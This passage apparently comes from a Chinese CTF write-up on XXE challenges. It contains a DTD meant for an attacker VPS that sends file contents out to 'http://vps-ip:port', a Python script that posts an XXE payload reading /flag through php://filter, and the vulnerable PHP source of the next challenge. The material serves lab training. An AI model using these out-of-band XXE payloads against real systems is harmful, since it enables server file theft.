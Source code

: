 test.dtd（放vps上面）内容

```xml
<!ENTITY % dtd "<!ENTITY &#x25; vps SYSTEM 'http://vps-ip:port/%file;'> ">
<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->

<!-- 引用（执行）dtd实体，vps被注册 -->
%dtd;
<!-- 引用（执行）vps实体，接收%file变量的内容 -->
%vps;
```

![image-20230928162355933](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230928162355933.png)

然后base64解码即可得到flag

也可以通过python脚本发包：

```python
import requests

url = ''
payload = """<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://vps-ip/text.dtd">
%aaa;
]>
<root>123</root>"""
payload = payload.encode('utf-8')
requests.post(url ,data=payload)
```

### [web375]

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:22:05
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);
```
